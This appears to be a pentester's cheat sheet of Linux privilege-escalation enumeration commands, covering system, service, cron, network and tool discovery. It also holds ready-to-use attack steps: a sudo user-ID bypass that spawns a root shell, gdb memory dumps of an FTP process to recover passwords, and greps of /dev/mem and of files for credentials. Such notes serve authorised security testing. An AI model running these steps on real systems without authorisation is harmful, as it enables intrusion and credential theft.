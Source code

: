 # OS

Lots of time can be saved by running linenum, lse, or Linpeas but below is how you can check stuff manualy and lots of stuff not done by the scripts.

LSE - https://github.com/diego-treitos/linux-smart-enumeration
Usage:
```
./lse.sh
```
```
./lse.sh -l1
```
```
./lse.sh -l2 | less -r
```

linemum - https://github.com/rebootuser/LinEnum
Usage:
```
./LinEnum.sh -r report -e /tmp/ #runs quick scan
```
```
./LinEnum.sh -r report -e /tmp/ -t #runs through slow test
```

linpeas - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Usage:
```
./linpeas.sh -a > /tmp/linpeas.txt 
less -r /dev/shm/linpeas.txt #Read with colors
```
## services with pspy
pspy

## Distro?
```
cat /etc/issue
cat /etc/*-release
  cat /etc/lsb-release      # Debian based
  cat /etc/redhat-release   # Redhat based
```
## kernel? 64bit?
```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```
## environmental variables?
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```
## printer?
```
lpstat -a
```

# Apps & Services
## What services are running? Which service has which user privilege?
```
ps aux
ps -ef
top
cat /etc/services
```
## Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!
```
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
```

## Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

## What jobs are scheduled?
```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
## Any plain text usernames and/or passwords?
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Sudo vulnerable?
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
sudo <= v1.28
```
sudo -u#-1 /bin/bash
```

## what commands do we have?

```
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```
## Compilers?
```
(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
```

## memory dump using GDB on ftp service
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

## see if you read mem
```
strings /dev/mem -n10 | grep -i PASS
```

## loaded creds?
```
ps -ef | grep "authenticator"
```
## Network
General
```
Hostname, hosts and DNS
cat /etc/hostname /etc/hosts /etc/resolv.conf
dnsdomainname

#Content of /etc/inetd.conf & /etc/xinetd.conf
cat /etc/inetd.conf /etc/xinetd.conf

#Interfaces
cat /etc/networks
(ifconfig || ip a)

#Neighbours
(arp -e || arp -a)
(route || ip n)
ip n

#Iptables rules
(timeout 1 iptables -L 2>/dev/null; cat /etc/iptables/* | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null)

#Files used by network services
lsof -i
```
open ports on the system
```
(netstat -punta || ss --ntpu)
(netstat -punta || ss --ntpu) | grep "127.0"
```
sniffing
```
timeout 1 tcpdump
```

## check some drives
```
cat /etc/fstab
```


## Useful links
https://book.hacktricks.xyz/linux-unix/privilege-escalation#system-information
https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/privilege-escalation/linux
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


